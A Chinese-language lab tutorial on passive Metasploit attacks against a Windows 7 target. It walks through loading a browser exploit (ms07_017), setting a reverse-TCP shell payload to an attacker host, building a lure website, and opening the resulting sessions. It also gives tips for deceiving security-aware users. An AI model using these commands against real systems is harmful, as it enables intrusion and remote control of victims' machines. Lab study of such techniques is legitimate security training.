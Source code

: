 
---


## 三、**Passive Exploit（**被动渗透攻击）

> 
<h3>3.1、简介：</h3>
浏览器软件漏洞攻击和文件格式漏洞攻击，引诱目标用户打开触发。
#查看支持的渗透攻击模块
show exploits    


> 
<h3>3.2、示例</h3>
<h4>3.2.1、实验环境：</h4>
目标开启防火墙
目标：Windows 7 旗舰版 Service Pack 1 。IP地址为192.168.190.138
攻击机：Kali 。IP地址为192.168.190.131

现在使用（主动攻击）Active进行攻击不会成功
使用（被动攻击）Passive，构造链接，诱使目标连接，利用浏览器的漏洞

<hr/>

<h4>3.2.2、第一步：装载模块</h4>
**挂载模块**
use exploit/windows/browser/ms07_017_ani_loadimage_chunksize
show options<br/>  



<hr/>

<h4>3.2.3、第二步：</h4>

伪造网站，诱使目标打开
SRVHOST可以指定为本机的IP地址，我们也可以打开SSL和设置SSL的证书，迷惑有安全意识的用户
URIPATH是访问的URL地址，可手动指定，比如192.168.190.131/service（一般默认根目录）
<hr/>
**#设置**
set SRVHOST 192.168.190.131
set PAYLOAD windows/shell/reverse_tcp
set LHOST 192.168.190.131
exploit



<hr/>
<h4>3.2.4、第三步：诱使目标点击</h4>
伪造了一个存在漏洞利用代码的WEB站点，这个站点等待浏览器版本存在漏洞的用户去访问它，将exploit注入到浏览器进程中，利用浏览器漏洞执行payload
我们在目标PC上用不同浏览器访问这个URL


访问以后，就会有记录，并尝试建立连接
没有后续就是可能没有相关已知的漏洞，一直处于等待阶段
<hr/>

<h4>3.2.5、第四步：进入会话</h4>
#可以查看已经创建的会话
session -l
#进入这个对应的shell
sessions -i ID
